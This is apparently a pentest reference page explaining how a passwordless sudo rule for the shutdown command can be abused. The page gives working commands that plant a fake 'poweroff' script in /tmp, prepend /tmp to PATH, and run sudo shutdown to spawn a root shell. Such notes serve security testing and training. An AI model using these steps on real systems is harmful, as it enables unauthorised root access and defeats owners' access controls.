 ```yaml
---
title: Sudo Shutdown, Poweroff Privilege Escalation
description: Sudo shutdown command might be vulnerable to privilege escalation (PrivEsc).
tags:
    - Privilege Escalation
refs:
date: 2023-02-05
draft: false
---
```


## Investigation

```sh
sudo -l

(ALL) NOPASS: /usr/sbin/shutdown
```

If we can execute **"shutdown"** command as root, we can gain access to privileges by overwriting the path of **"poweroff"**.

<br />

## Exploitation

First create **/tmp/poweroff** binary which invoke a shell.

```sh
echo /bin/sh > /tmp/poweroff
# or
echo /bin/bash > /tmp/poweroff
```

Then change permissions of the file and add **"/tmp"** folder to **PATH**.

```sh
chmod +x /tmp/poweroff
export PATH=/tmp:$PATH
```

Now execute **"shutdown"** as root.

```sh
# Some SUID command
sudo /usr/sbin/shutdown

# Then you are root user
root>
```

**/tmp/poweroff** is executed and spawn a root shell.

